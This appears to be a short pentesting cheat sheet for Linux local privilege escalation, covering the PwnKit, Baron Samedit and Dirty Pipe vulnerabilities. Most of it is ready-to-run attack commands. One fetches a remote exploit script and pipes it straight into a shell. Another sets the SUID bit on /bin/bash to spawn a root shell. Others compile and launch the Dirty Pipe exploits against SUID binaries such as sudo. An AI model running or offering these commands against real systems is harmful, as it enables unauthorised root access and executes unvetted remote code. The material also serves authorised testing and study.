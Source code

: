 # Linux
Some local privilege escalation techniques.

## CVE-2021-4034 : Polkit privilege escalation exploit
Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit
Based on <https://github.com/redhawkeye/sudo-exploit>
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```

## CVE-2022-0847 : Dirty Pipe
Based on <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>. Start with compile :
```bash
./compile.sh
```
Then launch the exploit :
```bash
./exploit-1
```
If doesn't works, try to find SUID binaries (sudo for example) :
```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```
